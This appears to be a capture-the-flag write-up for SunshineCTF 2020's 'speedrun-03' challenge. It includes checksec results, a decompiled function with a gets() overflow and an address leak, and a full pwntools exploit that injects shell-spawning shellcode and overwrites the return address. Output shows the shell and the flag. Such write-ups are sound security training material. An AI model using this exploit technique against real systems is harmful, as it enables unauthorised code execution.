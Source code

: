 # **speedrun-03**
## Task
nc chal.2020.sunshinectf.org 30003
File: chall_03
Tag: binary exploitation 

## Solution

### Checksec
```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```
* No canary + NX disable + RWX segments assume BOF shellcode
* System 64 bit
  
### Decompile with ghidra
```c
void vuln(void)
{
  char local_78 [112];
  
  printf("I\'ll make it: %p\n",local_78);
  gets(local_78);
  return;
}
```

`printf` leaks the address of the `local_78` so just write out the shellcode at that address then overflow the return address with shellcode's address

The shellcode address , We can craft by pwn module through `shellcraf` or find on the [Website shell storm](http://shell-storm.org/shellcode/)

### Exploit
```python
from pwn import *****
binary = context.binary = ELF('./chall_03')
p = remote('chal.2020.sunshinectf.org',30003)
p.sendlineafter('Just in time.\n','IxZ')

p.recvuntil('I\'ll make it: ')
addrshell = p.recvline().strip()
addr = int(addrshell,16)
payload = b''
payload += asm(shellcraft.sh())
print('len payload: ',len(payload))
payload += (0x78 - len(payload)) * b'a'
payload += p64(addr)
print('payload: ',payload)
p.sendline(payload)
p.interactive()
```

### Output
```bash
[*] '/home/kali/speedrun_sunshineCTF2020/chall_03'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
[+] Opening connection to chal.2020.sunshinectf.org on port 30003: Done
len payload:  48
payload:  b'jhH\xb8/bin///sPH\x89\xe7hri\x01\x01\x814$\x01\x01\x01\x011\xf6Vj\x08^H\x01\xe6VH\x89\xe61\xd2j;X\x0f\x05aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xf0\xf9\xaf\x9f\xff\x7f\x00\x00'
[*] Switching to interactive mode
$ ls
chall_03
flag.txt
$ cat flag.txt
sun{a-little-piece-of-heaven-26c8795afe7b3c49}
```